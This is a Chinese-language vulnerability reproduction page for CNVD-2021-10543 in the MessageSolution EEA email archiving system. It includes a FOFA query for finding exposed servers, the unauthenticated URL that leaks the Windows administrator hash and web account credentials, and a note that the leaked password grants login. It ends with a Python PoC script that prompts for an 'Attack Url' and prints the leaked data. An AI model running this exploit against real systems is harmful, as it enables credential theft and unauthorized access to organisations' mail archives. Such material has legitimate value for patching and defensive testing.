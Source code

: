 # MessageSolution--邮件归档系统EEA-信息泄露漏洞-CNVD-2021-10543

## 漏洞描述

MessageSolution企业邮件归档管理系统 EEA是北京易讯思达科技开发有限公司开发的一款邮件归档系统。该系统存在通用WEB信息泄漏，泄露Windows服务器administrator hash与web账号密码

## 漏洞影响

> [!NOTE]
>
> MessageSolution 企业邮件归档管理系统EEA

## FOFA

> [!NOTE]
>
> title="MessageSolution Enterprise Email Archiving (EEA)"

## 漏洞复现

登录页面如下

![](MessageSolution--邮件归档系统EEA-信息泄露漏洞-CNVD-2021-10543.assets/16273631178281019.jpg)

 访问如下Url

```
http://xxx.xxx.xxx.xxx/authenticationserverservlet/
```

![](MessageSolution--邮件归档系统EEA-信息泄露漏洞-CNVD-2021-10543.assets/162736311799346.jpg)

使用获得到的密码可以登录系统

![](MessageSolution--邮件归档系统EEA-信息泄露漏洞-CNVD-2021-10543.assets/16273631182629912.jpg)

## 漏洞利用POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: MessageSolution 企业邮件归档管理系统EEA                         \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')


def POC_1(target_url):
    vuln_url = target_url + "/authenticationserverservlet/"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if response.status_code == 200 and "administrator" in response.text:
            print("\033[32m[o] 目标 {} 存在信息泄露 响应为:{}\033[0m".format(target_url, response.text))
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))




if __name__ == "__main__":
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](MessageSolution--邮件归档系统EEA-信息泄露漏洞-CNVD-2021-10543.assets/1627363118629148.jpg)

## Goby & POC

> [!NOTE]
>
> MessageSolution--邮件归档系统EEA-信息泄露漏洞-CNVD-2021-10543
>
> Goby & POC 已经更新到 Github中

![](MessageSolution--邮件归档系统EEA-信息泄露漏洞-CNVD-2021-10543.assets/1627363118989509.jpg)

## 参考文章

https://mp.weixin.qq.com/s/jehAIIYWrpkLtGvGN-LtFA